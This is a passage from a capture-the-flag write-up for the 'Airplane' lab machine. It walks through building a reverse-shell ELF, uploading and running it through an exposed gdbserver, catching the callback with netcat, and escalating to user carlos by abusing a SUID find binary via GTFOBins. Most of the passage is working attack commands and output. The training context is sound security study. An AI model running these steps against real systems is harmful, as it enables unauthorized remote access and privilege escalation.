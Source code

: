 ```zsh
	LPORT=4444 \
	PrependFork=true \
	-f elf \
	-o shell.elf

chmod +x shell.elf
```
Next, let's open it in `gdb` (locally). Note: you will need to have GDB installed, you can find installation instruction online.
```zsh
gdb shell.elf
```
Before we upload and execute our shell, in a new terminal, we need a shell listener:
```zsh
nc -lvp 4444
```
Now, within the `gdb` interface, let's connect to the remote server, upload the binary and execute it.
```
(gdb) target extended-remote airplane.thm:6048
(gdb) remote put shell.elf /tmp/shell.elf
(gdb) set remote exec-file /tmp/shell.elf
(gdb) run
```
Now, in our shell we get a call back:
```
listening on [any] 4000 ...
connect to [10.11.47.141] from airplane.thm [10.10.70.6] 54186
whoami
hudson
```
We are the `hudson` user - we have initial access!
> There is no user.txt in `hudson` home directory, it's likely we need to laterally move to `carlos` first.
> {: .prompt-tip }

## Lateral Movement to `carlos` User
During some superficial enumeration of the machine, I looked for binaries with the SUID bit set using the following command:
```zsh
find / -perm /4000 -type f 2>/dev/null
```
I typically do this manually before running something like `linpeas.sh`.

> The SUID bit allows users to execute a file with the permissions of the file owner.
{: .prompt-tip }

```zsh
ls -lh /usr/bin/find
-rwsr-xr-x 1 carlos carlos 313K Feb 18  2020 /usr/bin/find
```
So we can run `/usr/bin/find` as `carlos`. Let's look in [GTFO Bins](https://gtfobins.github.io/gtfobins/find/) for an escalation method. This command will work and give us a shell as `carlos`:
```zsh
/usr/bin/find . -exec /bin/bash -p \;

bash-5.0$ whoami
whoami
carlos
```
Now, let's get that user flag from `carlos` home directory!
```zsh
cat /home/carlos/user.txt
eeb******************562
```